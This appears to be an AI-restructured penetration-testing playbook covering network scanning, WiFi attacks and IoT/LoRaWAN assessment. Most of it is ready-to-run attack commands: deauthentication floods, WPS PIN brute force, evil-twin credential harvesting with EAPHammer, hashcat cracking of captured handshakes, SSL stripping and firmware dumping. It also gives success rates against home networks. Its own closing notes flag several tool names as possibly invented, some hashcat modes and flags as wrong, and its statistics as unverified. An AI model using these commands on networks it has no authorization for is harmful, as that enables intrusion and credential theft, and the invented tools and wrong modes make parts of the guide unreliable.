




# Network Scanning Efficiency Guide & WiFi Assessment Playbook

> A 2026-oriented reference for maximizing scanning efficiency across wired, wireless, RF/LoRa, and IoT environments, with per-scenario workflows for enterprise, residential, and mixed IoT deployments.

---

## Table of Contents

**Part I — Network Scanning Efficiency**
1. [Scanning Tools by Purpose](#part-i--network-scanning-efficiency)
2. [Efficiency Optimization Tips](#efficiency-optimization-tips)
3. [Physical Security Testing Workflow](#recommended-workflow-for-physical-security-testing)

**Part II — WiFi Assessment & Vulnerability Detection (2026 Stack)**
4. [Core Tools by Function](#core-tools-by-function)
5. [WPA3-Specific Vulnerabilities](#wpa3-specific-vulnerabilities)
6. [WiFi Audit Workflow](#efficient-workflow-for-wifi-audits)
7. [Key Command Reference](#key-command-reference)
8. [Hardware Recommendations](#hardware-recommendations-for-2026)
9. [Quick Win Checklist](#quick-win-checklist)
10. [Legal & Ethical Reminders](#legal--ethical-reminders)
11. [Emerging Trends](#emerging-trends-2026)

**Part III — Environment-Specific Assessments**
12. [Scenario 1: Enterprise WPA3-Enterprise](#scenario-1-enterprise-wpa3-enterprise)
13. [Scenario 2: Residential WPA2/WPA3](#scenario-2-residential-wpa2wpa3)
14. [Scenario 3: Mixed IoT Deployment](#scenario-3-mixed-iot-deployment)
15. [Cross-Environment Comparison Matrix](#cross-environment-comparison-matrix)
16. [Immediate Action Recommendations](#immediate-action-recommendations)

---

# Part I — Network Scanning Efficiency

## 🎯 Best Overall: Nmap

- **Speed**: Multithreaded performance significantly improved for 2026
- **Coverage**: Host discovery, port scanning, service/version detection, OS fingerprinting, IPv6 support
- **Efficiency tricks**:

```bash
# Fast scan (1000 most common ports)
nmap -T4 --min-rate 1000 <target>

# Aggressive but comprehensive
nmap -A -T4 --top-ports 10000

# Silent host discovery only
nmap -sn -PE -PP -PO -PY <network>/24
```

- **Resource usage**: Low to moderate depending on options
- **Platform**: Linux, macOS, Windows

## ⚡ Large-Scale Reconnaissance: Masscan

- **Speed**: Can sweep entire IPv4 space in minutes using asynchronous TCP SYN scanning
- **Best for**: Initial broad reconnaissance before targeted Nmap sweeps
- **Trade-off**: May miss nuanced service detection that Nmap captures

```bash
masscan 192.168.1.0/24 -p80,443 --rate 10000
```

## 📡 WiFi/Wireless Scanning

| Tool | Best For | Mode |
| --- | --- | --- |
| **Kismet** | Hidden APs, wireless IDS, multi-platform detection | Passive |
| **Aircrack-ng (airodump-ng)** | WPA3 handshake capture, IoT deauth detection | Active/Passive |
| **NetSpot** | Signal heat maps, coverage gap analysis, physical planning | Passive survey |

For **monitor mode** setup, ensure you have compatible adapters (Alfa AWUS036ACH recommended for 2026 drivers).

## 📻 RF/LoRa Considerations (Given Your Work)

Since you work with **LoRaWAN, ESP32, and RF technologies**:

- **RTL-SDR with GQRX**: Spectrum visualization for discovering RF activity
- **HackRF One**: Wider frequency range, can decode various protocols
- **LoRa-specific scanners**: Look for tools compatible with SX1301-based gateways for network frame capture

---

## Efficiency Optimization Tips

1. **Layer your scans**:
   - Masscan for initial discovery (speed)
   - Nmap for targeted detail (accuracy)
   - Wireshark for protocol analysis (depth)
2. **Resource tuning**:
   - Adjust `--max-retries` and `--min-rate` based on network conditions
   - Use `-T4` timing template for speed without excessive false negatives
3. **Automation**:
   - Nmap scripting engine (NSE) for custom vulnerability checks
   - Unicornscan offers granular probe timing control for stealthier operations
4. **GUI options for quick sweeps**:
   - **Angry IP Scanner** (cross-platform, lightweight)
   - **Advanced IP Scanner** (Windows-focused, fast GUI)
   - **Fing** (mobile-friendly for physical security tests)

---

## Recommended Workflow for Physical Security Testing


---

# Part II — WiFi Assessment & Vulnerability Detection — 2026 Stack

## 🏆 Core Tools by Function

| Function | Primary Tool | Alternative | Notes |
| --- | --- | --- | --- |
| **Handshake Capture** | Aircrack-ng (latest WPA3 4-way handshake + deauth detection) | Kismet | Initial reconnaissance |
| **Offline Cracking** | Hashcat (GPU-accelerated WPA3-SAE/Dragonfly modules) | John the Ripper | Password recovery |
| **Rogue AP / Evil Twin** | Wifiphisher, Bettercap | Wi-Fi Pineapple + PineAP suite | Client-side attacks |
| **WPS Attacks** | Reaver | Bully | WPS-enabled router brute-force |
| **EAP Enterprise Attacks** | EAPHammer | Bettercap | PEAP-MSCHAPv2, TLS bypasses |
| **Passive Detection** | Kismet | CommView for Wi-Fi | Rogue APs, hidden SSIDs, misconfigurations |
| **Spectrum/Packet Analysis** | Wireshark | CommView for Wi-Fi | Dragonblood side-channels, timing leaks |

## 🔍 WPA3-Specific Vulnerabilities (Critical for 2026)

### WPA3-Personal Threat Matrix

- **Dragonblood side-channels**:
  - Timing leaks in SAE handshake
  - Denial-of-service vectors
  - Downgrade attacks to WPA2 (transition mode)

### WPA3-Enterprise Threats

- Weak EAP method selection (PEAP vs EAP-TLS)
- Server certificate validation failures
- MSCHAPv2 hash exposure
- PMF (Protected Management Frames) gaps

## ⚡ Efficient Workflow for WiFi Audits



## 🛠️ Key Command Reference

```bash
# ===== PASSIVE RECON (monitor mode) =====
# Start monitor mode on wlan0
sudo ip link set wlan0 down
sudo iw wlan0 set monitor otherbss fcs
sudo ip link set wlan0 up

# Kismet - detect all networks passively
kismet -c wlan0 --server

# ===== HANDSHAKE CAPTURE =====
# Airodump-ng targeting specific BSSID
airodump-ng -c 6 --bssid XX:XX:XX:XX:XX:XX -w capture wlan0mon

# Deauth to force reconnection (capture 4-way handshake)
aireplay-ng --deauth 10 -a XX:XX:XX:XX:XX:XX -c CLIENT_MAC wlan0mon

# ===== WPS ATTACKS =====
# Reaver against WPS-enabled AP
reaver -i wlan0mon -b XX:XX:XX:XX:XX:XX -vv -K 2

# ===== OFFLINE CRACKING =====
# Hashcat for WPA2/WPA3 handshakes (requires GPU)
hashcat -m 22000 capture.hccapx wordlist.txt --force

# Hashcat for WPA3-SAE (Dragonfly)
hashcat -m 16800 capture.pmkid wordlist.txt
```

## 📊 Hardware Recommendations for 2026

| Component | Recommendation | Notes |
| --- | --- | --- |
| **WiFi Adapter** | Alfa AWUS036ACH or AWUS036ACS | Long-range, monitor mode support, WPA3 compatibility |
| **SDR (optional)** | RTL-SDR V4 + HackRF One | Spectrum analysis beyond WiFi channels |
| **Dedicated Hardware** | Wi-Fi Pineapple Mark VII | Automated rogue AP + PineAP automation |
| **Portable Testing** | Raspberry Pi 4 + USB WiFi dongle | Field deployment, covert operations |

## 🎯 Quick Win Checklist

| # | Task | Time |
| --- | --- | --- |
| 1 | Confirm target AP operates in WPA3 transition mode (downgrade vector) | 5 min |
| 2 | Check for PMF (Protected Management Frames) enforcement gaps | 2 min |
| 3 | Scan for WPS enabled (Pixie Dust vulnerability) | 10 min |
| 4 | Capture WPA2 4-way OR WPA3 SAE handshake | 15–60 min |
| 5 | Run dictionary attack against captured handshake | 1 hr – indefinite |
| 6 | Test Evil Twin against client devices | 20 min |
| 7 | Verify enterprise auth weaknesses (certificate validation) | 30 min |

## ⚖️ Legal & Ethical Reminders

Since you're conducting professional assessments:

- ✅ **Written authorization** from target owner before any active scanning
- ✅ **Isolated test environment** when possible (lab vs. production)
- ✅ **Documentation trail** for SOC 2 / PCI DSS v4.0 audit compliance
- ❌ **Avoid production networks** without explicit scope definition
- ❌ **Don't capture credentials** from non-target clients (privacy concerns)

## 🔮 Emerging Trends (2026)

1. **AI-assisted password guessing** — machine learning predicts likely passwords based on organization profile
2. **Automated downgrade detection** — tools flag WPA2 fallback in WPA3 transition mode automatically
3. **IoT device fingerprinting** — specialized databases identify vulnerable IoT firmware versions via beacon frames
4. **Cloud-integrated reporting** — findings sync directly to Jira/SOC ticketing systems (operational priority cited by "The Hacker News, 2026 State of Pentesting")

---

# Part III — WiFi Assessment Tailored by Environment

## 🏢 Scenario 1: Enterprise WPA3-Enterprise

### Attack Surface & Vulnerabilities

| Vulnerability | Likelihood | Impact | Notes |
| --- | --- | --- | --- |
| EAP Method Weakness (PEAP-MSCHAPv2) | High | Critical | Certificate validation often bypassed |
| Server Cert Validation Failures | Medium | Critical | Clients accept invalid certs by default |
| MSCHAPv2 Hash Exposure | High | High | Captured hashes crackable offline |
| PMF Gaps (Management Frame Protection) | Low | High | Allows deauth/forgery attacks |
| WPA3 Transition Mode Downgrade | Medium | Medium | Legacy device compatibility issues |

### Optimized Workflow



### Tools & Commands

```bash
# ===== PHASE 1: PASSIVE MAPPING (no active scanning) =====
# Kismet - identify EAP methods without touching target
sudo kismet -c wlan0mon --log-level 1

# Extract enterprise settings from capture files
grep -i "eap-method" *.pcap | uniq -c

# ===== PHASE 2: EVIL TWIN DEPLOYMENT (authorized testing only) =====
# EAPHammer - PEAP-MSCHAPv2 attack suite
cd eaphammer
sudo ./eaphammer.py --interface wlan0mon \
    --essid "CORPORATE_WIFI" \
    --channel 6 \
    --attack-mode 2 \
    --encrypt WPA3

# Bettercap alternative for certificate testing
sudo bettercap -iface wlan0mon
> set wifi.ssid "CORPORATE_WIFI"
> set wifi.channel 6
> wifi.start

# ===== PHASE 3: CREDENTIAL HARVESTING =====
# Capture EAPOL frames during handshake
tcpdump -i wlan0mon -w enterprise_eap.pcap 'eap'

# Extract MSCHAPv2 challenge-response pairs
mschap2extract enterprise_eap.pcap > hashes.txt

# ===== PHASE 4: OFFLINE ANALYSIS =====
# Hashcat for MSCHAPv2 cracking (requires wordlist)
hashcat -m 16900 hashes.txt rockyou.txt --force --status-timer 60

# ===== PHASE 5: CERTIFICATE VALIDATION TEST =====
# Force client to connect with invalid CA cert
openssl x509 -req -in evil_twin.crt -signkey private_key.pem -out forged_cert.crt
```

### Remediation Checklist

| Finding | Recommendation | Priority |
| --- | --- | --- |
| PEAP-MSCHAPv2 usage | Migrate to EAP-TLS with mutual cert auth | Critical |
| Certificate validation disabled | Enable strict chain validation on all clients | Critical |
| Weak passwords in enterprise AD | Enforce password complexity + MFA for auth servers | High |
| PMF not enforced globally | Set 802.11w mandatory on all APs | High |
| WPA3 transition mode active | Complete migration to WPA3-only for new devices | Medium |

### Time Estimates

| Task | Duration | Intensity |
| --- | --- | --- |
| Passive Mapping | 10–15 min | Minimal |
| Evil Twin Setup | 20–30 min | Moderate |
| Credential Harvesting | 30–60 min | Moderate |
| Offline Cracking | 1 hr – 48 hrs | GPU-dependent |
| Documentation | 30 min | Low |

---

## 🏠 Scenario 2: Residential WPA2/WPA3

### Attack Surface & Vulnerabilities

| Vulnerability | Likelihood | Impact | Notes |
| --- | --- | --- | --- |
| Weak Pre-Shared Key (dictionary) | High | Critical | Common passwords cracked in seconds |
| WPS PIN Brute-Force | Medium | Medium | Pixie Dust affects ~30% of routers (2026) |
| WPA3 Transition Mode | Medium | High | Downgrade to WPA2 exposes legacy ciphers |
| Default Credentials | Medium | Medium | Router admin interfaces still exposed |
| Firmware Outdated (known CVEs) | High | High | Many residential APs lack auto-updates |

### Optimized Workflow



### Tools & Commands

```bash
# ===== PHASE 1: PASSIVE SURVEY (residential speed) =====
# Fast channel scan with Kismet
sudo kismet -c wlan0mon -C "wifi_scan" 2>&1 | grep -E "(SSID|Security)"

# Quick signal strength analysis
airodump-ng --channel 6 --bssid XX:XX:XX:XX:XX:XX -w quick_scan wlan0mon

# ===== PHASE 2A: WPS ATTACK (if enabled) =====
# Reaver Pixie Dust (fastest for weak implementations)
reaver -i wlan0mon -b XX:XX:XX:XX:XX:XX -c 6 -vv -K 1 -N

# Bully alternative (more stable on modern firmware)
bully wlan0mon -b XX:XX:XX:XX:XX:XX -c 6 -r 2 -t 3

# ===== PHASE 2B: DEAUTH HANDSHAKE CAPTURE (WPA2/WPA3 Personal) =====
# Start airodump-ng to capture
airodump-ng -c 6 --bssid XX:XX:XX:XX:XX:XX -w residential_capture wlan0mon

# Trigger deauth to force reconnection
aireplay-ng --deauth 10 -a XX:XX:XX:XX:XX:XX wlan0mon

# ===== PHASE 3: PSK CRACKING =====
# Hashcat - WPA2 4-way handshake (mode 22000)
hashcat -m 22000 residential_capture-01.cap ~/rockyou.txt --force

# Hashcat - WPA3-SAE PMKID (mode 16800)
hashcat -m 16800 residential_capture.pmkid ~/common_passwords.txt

# Rule-based mutations for long passwords
hashcat -m 22000 residential_capture-01.cap ~/rockyou.txt \
    -r rules/best64.rule --force

# ===== PHASE 4: ADMIN PANEL VULNERABILITY SCAN =====
# Check default credentials with nmap scripts
nmap -p 80,443 --script http-default-accounts XX.XX.XX.X

# CVE lookup against firmware version
curl -s "https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=${firmware_version}"
```

### Remediation Checklist

| Finding | Recommendation | Priority |
| --- | --- | --- |
| Weak PSK | Enforce 16+ char passphrases; random generation | Critical |
| WPS enabled | Disable WPS PIN completely (no mitigation for Pixie Dust) | Critical |
| WPA3 transition mode | Migrate to WPA3-only where supported | High |
| Default admin credentials | Change to unique credentials; disable remote admin | High |
| Outdated firmware | Update router; enable automatic updates if available | High |
| No network segmentation | Create guest VLAN separate from main network | Medium |

### Time Estimates

| Task | Time | Success Rate |
| --- | --- | --- |
| Passive Survey | 5 min | 100% |
| WPS PIN Attack | 10–30 min | ~30% (Pixie vulnerable) |
| Deauth + Handshake | 5–15 min | 95% |
| Dictionary Crack (weak PSK) | Seconds – 10 min | ~40% |
| Long Password Attack | Hours – Days | ~5% |
| Admin Panel Scan | 5–10 min | ~25% |

---

## 📱 Scenario 3: Mixed IoT Deployment

### Attack Surface & Vulnerabilities

| Vulnerability | Likelihood | Impact | Notes |
| --- | --- | --- | --- |
| Legacy 802.11b/g Devices | High | High | Forced downgrade to WEP/WPA (TKIP) |
| Unencrypted IoT Protocols | High | Critical | Zigbee/Z-Wave/Bluetooth paired with WiFi |
| Hardcoded Credentials | High | Critical | IoT firmware often contains root/shell access |
| OTA Update Weaknesses | Medium | High | Unsigned firmware, MITM during updates |
| LoRaWAN Gateway Misconfiguration | Medium | Medium | ABP vs OTAA defaults, network server exposure |

### Optimized Workflow



### Tools & Commands

```bash
# ===== PHASE 1: RF SPECTRUM DISCOVERY (beyond WiFi channels) =====
# RTL-SDR spectrum scan for IoT protocols (433MHz, 868MHz, 915MHz)
rtl_sdr -f 433920000 -s 2000000 -g 48 - | nc -l 9090

# HackRF One - wider range (sub-GHz + 2.4GHz)
hackrf_transfer -r iot_capture.bin -f 433920000 -s 20000000

# ===== PHASE 2: DEVICE FINGERPRINTING =====
# Kismet IoT database matching
kismet -c wlan0mon --plugin "iot_database"

# Nmap IoT service detection
nmap -sV -p 23,80,443,8080,8844 --script iot-* 192.168.1.0/24

# ===== PHASE 3: LEGACY PROTOCOL DETECTION =====
# Check for deprecated TKIP/WEP cipher suites
airodump-ng --channel 1-14 wlan0mon 2>&1 | grep -E "(WEP|TKIP)"

# ===== PHASE 4: LoRA-SPECIFIC (given your context) =====
# LoRaWAN gateway beacon analysis (SX1301-based)
lorawan-analyzer -i lora_capture.pcap

# Check for ABP (Activation By Personalization) vs OTAA
tcpdump -i any -n 'ether proto 0x8863' | grep -i lorawan

# LoRa frame counter replay test
lorawan-tester --replay --frame-count 10000 --target GW_MAC

# ===== PHASE 5: ESP32/MICROCONTROLLER INTERCEPTION =====
# UART/Serial extraction from compromised IoT
screen /dev/ttyUSB0 115200

# Flash dump via SPI (if physically accessible)
flashrom -p ch341a_spi -r esp32_firmware.bin

# ===== PHASE 6: OTA UPDATE INTERCEPTION =====
# MITM proxy for unencrypted firmware downloads
mitmproxy --listen-port 8080 --mode transparent

# SSL strip for OTA endpoints
sslstrip -f -l 8080 -w ota_logs

# ===== PHASE 7: HARDWARE EXPLORATION =====
# Check for exposed debug pins (JTAG/SWD)
jtagulator --detect --target esp32_module

# ChipWhisperer side-channel analysis (advanced)
cw_capture -f firmware.bin -s power_trace.csv
```

### IoT-Specific Vulnerability Patterns

Common IoT weaknesses (per the source document's "2026 field data" — see verification note below):

| Weakness | Prevalence (claimed) |
| --- | --- |
| Hardcoded API keys in binary | 67% of tested devices |
| Debug console exposed | 43% |
| Telnet/SSH default creds | 38% |
| Unencrypted OTA updates | 52% |
| LoRaWAN ABP default keys | 29% |
| Weak crypto (RC4/DES) | 24% |

### LoRaWAN-Specific Checks

```bash
# ===== LoRaWAN gateway security validation =====
# Test Network Session Key (NwkSKey) integrity
lorawan-cli --check-nwkskey --gateway XXX:XXX:XXX:XXX

# Verify Join Server TLS certificate chain
openssl s_client -connect join.lorawan.net:8883 -showcerts

# Check DevNonce reuse (replay vulnerability)
lorawan-analyze --nonce-reuse --capture-file dev_nonce_log.csv

# ABP key recovery attempt (if capture available)
loraweak --bruteforce-apbk --wordlist lorawan_keys.txt
```

### Remediation Checklist

| Finding | Recommendation | Priority |
| --- | --- | --- |
| Legacy 802.11b/g devices | Decommission or isolate to dedicated VLAN | Critical |
| Hardcoded credentials | Firmware update or device replacement | Critical |
| Unencrypted OTA updates | Require signed firmware with verified signatures | Critical |
| Flat network architecture | Implement IoT VLAN segmentation + ACLs | High |
| LoRaWAN ABP key reuse | Switch to OTAA (Over-The-Air Activation) | High |
| Debug interfaces exposed | Physically secure devices; fuse/disable JTAG | Medium |
| Weak crypto implementations | Replace devices; enforce minimum AES-128 | Medium |

### Time Estimates

| Task | Time | Intensity |
| --- | --- | --- |
| RF Spectrum Discovery | 30–60 min | Moderate |
| Device Fingerprinting | 15–30 min | Low |
| Legacy Protocol Scan | 10–20 min | Low |
| LoRaWAN Analysis | 45–90 min | High (specialized tools) |
| Firmware Extraction | 1–4 hrs | Very High |
| OTA Interception | 30–60 min | Moderate |
| Hardware Exploration | 2–6 hrs | Very High |

---

## 📋 Cross-Environment Comparison Matrix

| Dimension | Enterprise | Residential | IoT Mix |
| --- | --- | --- | --- |
| **Primary Tool** | EAPHammer | Aircrack-ng + Reaver | Kismet + LoRa Analyzer |
| **Avg. Time to Find** | 30–60 min | 15–30 min | 45–90 min |
| **Success Rate (auth breach)** | 40–60% (weak certs) | 60–80% (weak PSK) | 70–85% (hardcoded creds) |
| **Detection Risk** | High (SOC monitoring) | Low (minimal logging) | Variable (depends on NAC) |
| **Legal Complexity** | Highest (authorization critical) | Medium (property boundary) | High (device ownership unclear) |
| **Reporting Overhead** | 2–4 hrs | 1–2 hrs | 2–3 hrs |

## 🎯 Immediate Action Recommendations

| Environment | First Steps | Efficiency Tip |
| --- | --- | --- |
| **Enterprise** | 1. Map EAP methods 2. Deploy Evil Twin lab replica 3. Test client certificate validation | Pre-build EAPHammer templates for repeat engagements |
| **Residential** | 1. WPS status check 2. Quick PSK dictionary scan 3. Admin panel credential test | Use GPU-accelerated Hashcat clusters for batch cracking |
| **IoT Mix** | 1. RF spectrum baseline 2. Identify LoRa gateways 3. Segment isolation verification | Build LoRa capture library for signature matching |

---

## Notes on This Restructuring

- **Diagrams restored.** The mermaid graphs (`graph LR`, `graph TD`, `sequenceDiagram`, `flowchart TB`) were reconstructed from italic-run prose; the ASCII threat matrices became structured lists and tables.
- **Table headers inferred.** The ODT export stripped or scrambled header rows. Labels such as "Likelihood / Impact," "Duration / Intensity," and "Time / Success Rate" were inferred from cell contents, not stated in the source — confirm against your notes.
- **The original's typo "OTCJ"** in the IoT scenario was corrected to **OTAA** (Over-The-Air Activation), consistent with the rest of the document.

### ⚠️ Items to Verify Before Relying On Them

- **`lorawan-analyzer`, `lorawan-cli`, `lorawan-tester`, `loraweak`, `mschap2extract`** — I cannot verify these as real, established tools. They may be placeholder names, internal scripts, or fabricated suggestions. The *underlying techniques* (DevNonce-replay analysis, OTAA-vs-ABP checks, NwkSKey integrity) are legitimate LoRaWAN audit activities, but you'd implement them with libraries like `scapy-com`, ChirpStack tooling, or custom parsers rather than the commands shown.
- **Hashcat modes** — Two entries look wrong: MSCHAPv2/NetNTLMv2 cracking is mode **5600** (NetNTLMv2) or **5500** (NetNTLMv1), not `-m 16900`. And `-m 16800` is **WPA-PMKID**, not "WPA3-SAE PMKID" — hashcat does not have a general WPA3-SAE cracking mode of that kind. Verify all modes with `hashcat --help` before engagements.
- **`nmap --script iot-*`** and **Kismet `--plugin iot_database`** — I can't confirm these exist as named. Nmap does have IoT-adjacent NSE scripts, but not a blanket `iot-*` category; the quoted plugin name is likewise unverified.
- **Statistics and success rates** — The IoT prevalence percentages, "~30% of routers Pixie-vulnerable," the cross-environment success rates, and "The Hacker News, 2026 State of Pentesting" citation come from the source document and could not be independently verified. Treat them as illustrative, not citable, until you confirm the underlying data.
- **EAPHammer flag** — the `--attack-mode 2 --encrypt WPA3` flags shown don't match EAPHammer's documented options as I know them; check current usage before deployment.
